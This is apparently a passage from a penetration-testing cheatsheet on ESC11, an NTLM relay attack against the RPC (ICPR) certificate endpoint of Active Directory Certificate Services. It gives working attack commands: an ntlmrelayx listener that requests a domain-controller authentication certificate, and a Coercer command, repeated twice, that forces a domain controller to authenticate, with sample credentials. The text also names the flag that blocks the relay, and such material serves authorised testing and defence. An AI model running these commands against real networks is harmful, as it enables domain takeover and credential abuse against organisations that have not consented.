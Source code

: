 ```powershell
Coercer.py coerce -l cb-ws.domain.corp -t dc.corp -u user -p 'IamtheF!rstStud3nt#' -d domain.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

---

## ESC11 - NTLM Relay to AD CS ICPR Endpoints


**ESC11** is similar to ESC8 but targets **RPC endpoints** instead of HTTP, particularly using **ICPR (ICertPassage Remote Protocol)** for NTLM relay. This method is useful when HTTP endpoints are secured, but the CA's RPC interface is exposed.

### Key Points

- **ICPR (ICertPassage Remote Protocol)** can request certificates for Windows Client Certificate Enrollment.
- **IF_ENFORCEENCRYPTICERTREQUEST Flag**: Prevents RPC relaying if enabled (packet privacy). Enabled by default on **Windows Server 2012 and newer**.

### Important Considerations

- Ensure **RPC interface** is accessible.
- Relay attempts will fail if **IF_ENFORCEENCRYPTICERTREQUEST** is set, as packet privacy is enforced.

#### References

- For additional information, refer to: [AD CS Abuse Guide by Snovvcrash](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse/esc8)

---

### Cheatsheet

**ESC11** allows NTLM relay abuse targeting AD CS **RPC endpoints** instead of HTTP. Using **ICPR (ICertPassage Remote Protocol)**, attackers can request certificates via NTLM relays, gaining potentially privileged access if they can authenticate via the RPC interface.

**Set Up NTLM Relay Listener**:
```powershell
ntlmrelayx.py -t "rpc://ca.corp" -rpc-mode ICPR -icpr-ca-name "CB-CA" -smb2support --adcs --template 'DomainControllerAuthentication'
```

**Coerce NTLM Authentication**:

Use **Coercer** to force NTLM authentication.

```powershell
Coercer.py coerce -l cb-ws.domain.corp -t dc.corp -u user -p 'IamtheF!rstStud3nt#' -d domain.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

#### Important Notes
